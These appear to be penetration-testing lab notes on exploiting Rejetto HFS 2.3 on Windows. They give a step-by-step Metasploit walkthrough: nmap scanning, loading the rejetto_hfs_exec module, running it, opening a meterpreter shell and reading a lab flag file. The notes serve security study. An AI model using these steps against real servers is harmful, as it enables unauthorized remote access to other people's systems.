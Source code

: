 # Exploiting Windows

## Exploiting a Vulnerable HTTP File Server

- An HTTP File Servier (HFS) is a web server that is designed for file & document sharing.
- HTTP File Servers typically run on TCP port 80 and utilize the HTTP protocol for underlying communication.
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on both Windows and Linux.
- Rejetto HFS V2.3 is vulnerable to a remote command execution attack.
- MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS.

1. Port Scanning & Enumeration
2. Enumerate Version of Fileserver
3. Load / search exploit module
4. confiugre it and exploit it

## Demo: Exploiting a Vulnerable HTTP File Server

msf6:`service postgresql start && msfconsole`

msf6:`db_status`

msf6:`workspace -a HFS`

msf6:`setg rhosts [targetIP]`

We perform a Nmap scan and store the data directly into our MSF database:

msf6:`db_nmap -sS -sV -O [targetIP]`

We get the file server version, OS etc.

msf6:`search type:exploit name:rejetto`

msf6:`use exploit/windows/http/rejetto_hfs_exec`

msf6:`show options`

msf6:`info`

msf6:`run`

meterpreter:`shell`

meterpreter:`cd /`

meterpreter:`dir`

meterpreter:`type flag.txt`





